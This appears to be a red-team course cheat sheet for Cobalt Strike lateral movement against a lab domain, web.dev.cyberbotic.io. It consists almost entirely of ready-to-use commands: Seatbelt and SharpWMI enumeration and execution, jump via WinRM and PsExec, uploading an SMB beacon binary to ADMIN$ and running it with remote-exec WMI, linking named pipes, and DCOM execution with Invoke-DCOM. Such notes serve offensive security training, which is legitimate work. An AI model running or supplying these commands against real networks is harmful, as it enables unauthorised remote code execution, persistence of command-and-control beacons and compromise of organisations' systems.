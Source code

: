 # Useful enumeration before jumping to a target

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web

# if CoInitializeSecurity already called. error (Spawn a new beacon)
spawn [x86|x64] [listener]
spawnas [DOMAIN\user] [password] [listener]
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"
```

---

# Using the JUMP command (directly spawn a beacon in the target)

```bash
jump [method] [target] [listener]

# Blends well with traffic
jump winrm64 web.dev.cyberbotic.io smb

# Uploads binary and and starts service to execute binary
jump psexec64 web.dev.cyberbotic.io smb

# Runs powershell oneliner
jump psexec_psh web smb
```

---

# Using REMOTE-EXEC command (run command on remote computer)

```bash
remote-exec [method] [target] [command]

# Uploading binary
cd \\web.dev.cyberbotic.io\ADMIN$
upload C:\Payloads\smb_x64.exe
remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe

# Link the spawn process (check where we get pipe from)
link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

---

# DCOM (Distributed Component Object Model)

https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1

```bash
# Import module
powershell-import C:\Tools\Invoke-DCOM.ps1

# Spawn a proccess mmc.exe.
powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe

# Link the process to connect to it
link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```
